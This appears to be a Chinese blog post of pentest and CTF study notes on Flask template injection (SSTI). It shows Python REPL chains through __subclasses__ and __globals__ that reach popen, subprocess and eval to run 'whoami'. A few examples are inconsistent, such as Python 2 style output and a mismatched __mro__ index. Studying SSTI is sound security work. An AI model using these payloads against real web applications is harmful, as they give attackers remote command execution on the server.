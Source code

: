 ```yaml
---
draft: false
isCJKLanguage: true
date: 2021-07-11
lastmod: 2024-05-23
title: "Flask 模版注入（SSTI）"
description: 我的个人博客，主要用于记录自己的一些渗透测试、编程等学习笔记之类的东西。
categories: 
  - Pentest
tags:
  - python
  - ctf
  - rce
---
```



### 0x00 SSTI 模版注入
SSTI 模版注入一般都是先找到执行命令的模块模块，然后执行（可以用工具 tplmap）

一般步骤：  
1、某种类型 (字符串:""，list:[]，int：1) 开始引出  
2、`__class__` 找到当前类  
3、`__mro__` 或者 `__base__` 或者 `__bases__` 找到根类 `__object__`  
4、然后利用 `__subclasses__` 拿到子类列表  
5、然后在子类列表 `__init__.__globals__.keys()` 找到类似 popen 能执行命令的函数


### 0x01 python3 例子
* 当前类
    ```py
    # __class__ 返回对象所属类
    >>> ''.__class__
    <class 'str'>
    ```

* 获取 object 根类
    ```py
    # __mro__、__bases__ 都可以返回继承链关系
    >>> ''.__class__.__mro__
    (<class 'str'>, <class 'object'>)
    >>> ''.__class__.__bases__
    (<class 'object'>,)
    ```

* 获取子类列表
    ```py
    # __subclasses__() 以列表返回类的所有子类
    >>> ''.__class__.__mro__[1].__subclasses__()
    [<type 'type'>,
    <type 'weakref'>,
    <type 'weakcallableproxy'>,
    <type 'super'>,
    <type 'dict'>,
    <type 'set'>,
    ......
    ......
    <class 'site._Printer'>,
    <class 'site._Helper'>,
    <class 'site.Quitter'>,
    <class 'codecs.IncrementalEncoder'>,
    <class 'codecs.IncrementalDecoder'>]
    ```

* 通过 os.popen、os.system、subprocess.Popen 执行命令
    
    找到存在 popen、system 等可以执行命令的类
    ```py
    >>> for i,v in enumerate(''.__class__.__bases__[0].__subclasses__()):
    ...     try:
    ...         if 'popen' in v.__init__.__globals__:
    ...             print(i, v)
    ...     except:
    ...         pass
    ...
    154 <class 'os._wrap_close'>
    
    >>> for i,v in enumerate(''.__class__.__bases__[0].__subclasses__()):
    ...     try:
    ...         if 'Popen' in v.__init__.__globals__:
    ...             print(i, v)
    ...     except:
    ...         pass
    ...
    250 <class 'subprocess.CompletedProcess'>
    251 <class 'subprocess.Popen'>
    ```

    通过 `__init__` 初始化类实例
    ```py
    >>> ''.__class__.__bases__[0].__subclasses__()[154].__init__
    <function _wrap_close.__init__ at 0x1081df740>
    ```
    
    通过 `__globals__` 拿到字典类型的内建模块，可以看到 popen
    ```py
    >>> ''.__class__.__mro__[2].__subclasses__()[74].__init__.__globals__
    {'__name__': 'os', 
    '__doc__': "OS routines for...", 
    '__package__': '', 
    '__doc__': "Built-in function....", 
    ......
    ......
    '__all__': [
        'spawnv', 
        'spawnve', 
        'spawnvp', 
        'spawnvpe', 
        'popen',
        ......
    ], 
    'fdopen': <function fdopen at 0x1081df6a0>, 
    '_fspath': <function _fspath at 0x1081dfb00>, 
    'PathLike': <class 'os.PathLike'>}
    ```
    
    初始化后执行命令
    ```py
    >>> ''.__class__.__bases__[0].__subclasses__()[154].__init__.__globals__['popen']('whoami').read()
    'reber\n'
    ```

* 直接通过 os 模块执行命令
    
    其实上面的例子用的是 os 模块
    ```py
    >>> for i,v in enumerate(''.__class__.__bases__[0].__subclasses__()):
    ...     try:
    ...         if 'os' in v.__init__.__globals__:
    ...             print(i, v)
    ...     except:
    ...         pass
    ...
    158 <class '_distutils_hack._TrivialRe'>
    232 <class 'contextlib._GeneratorContextManagerBase'>
    233 <class 'contextlib._BaseExitStack'>
    239 <class 'inspect.BlockFinder'>
    242 <class 'inspect.Parameter'>
    243 <class 'inspect.BoundArguments'>
    244 <class 'inspect.Signature'>
    250 <class 'subprocess.CompletedProcess'>
    251 <class 'subprocess.Popen'>
    ```
    
    执行命令
    ```py
    >>> ''.__class__.__bases__[0].__subclasses__()[158].__init__.__globals__['os'].popen('whoami').read()
    'reber\n'
    ```
    
    这种方法<f>不准确</f>，因为一些不相关的类名中也存在字符串 "os"

* 通过 `__builtins__` 执行命令
    
    `__builtins__` 下有 eval、`__import__` 等函数
    ```py
    >>> for i,v in enumerate(''.__class__.__bases__[0].__subclasses__()):
    ...     try:
    ...         if 'eval' in v.__init__.__globals__['__builtins__']:
    ...             print(i, v)
    ...     except:
    ...         pass
    ...
    140 <class 'codecs.IncrementalEncoder'>
    141 <class 'codecs.IncrementalDecoder'>
    142 <class 'codecs.StreamReaderWriter'>
    143 <class 'codecs.StreamRecoder'>
    154 <class 'os._wrap_close'>
    155 <class '_sitebuiltins.Quitter'>
    163 <class 'warnings.WarningMessage'>
    164 <class 'warnings.catch_warnings'>
    191 <class 'reprlib.Repr'>
    201 <class 'functools.partialmethod'>
    ```
    
    通过第 140 个的类执行命令
    ```py
    >>> ''.__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
    'reber\n'
    >>> ().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['__import__']('os').popen('whoami').read()
    'reber\n'
    ```


**Reference(侵删)：**
* [Flask基础及模板注入漏洞（SSTI）](https://xz.aliyun.com/t/12163)
* [SSTI的payload](https://www.cnblogs.com/chrysanthemum/p/12766783.html)
* [Python 沙盒逃逸备忘](https://www.k0rz3n.com/2018/05/04/Python%20沙盒逃逸备忘/)
